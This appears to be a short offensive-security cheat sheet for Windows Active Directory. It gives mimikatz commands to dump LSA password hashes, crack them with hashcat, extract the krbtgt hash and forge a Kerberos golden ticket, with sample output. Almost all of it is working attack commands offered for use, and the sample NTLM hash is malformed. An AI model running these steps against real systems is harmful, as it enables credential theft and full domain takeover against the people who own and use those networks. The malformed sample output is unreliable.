 Run mimikatz with priviliges.

```
privilege::debug
```

Dump hashes.

```
lsadump::lsa /patch
```

Crack with hashcat.

```
hashcat -m 1000 <hash> rockyou.txt -r OneRuleToRuleThemAll.rule
```


### [](#header-3)Krbtgt

Run mimikatz with priviliges.

```
privilege::debug
```

Dumping security identifier of the Kerberos Ticket Granting Ticket. This will allow creating a golden ticket.

```
lsadump::lsa /inject /name:krbtgt
```

Example:

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain: CONTROLLER / S-1-5-21-###22342-###5553-245633

RID  : 00000034 (502)
User : krbtgt

	* Primary
	   NTLM : 393852432837248324234cas 
```

Create a golden ticket.

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

Example:

```
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-###22342-###5553-245633 /krbtgt:393852432837248324234cas /id:500
```

Use the ticket to access other machines with mimikatz

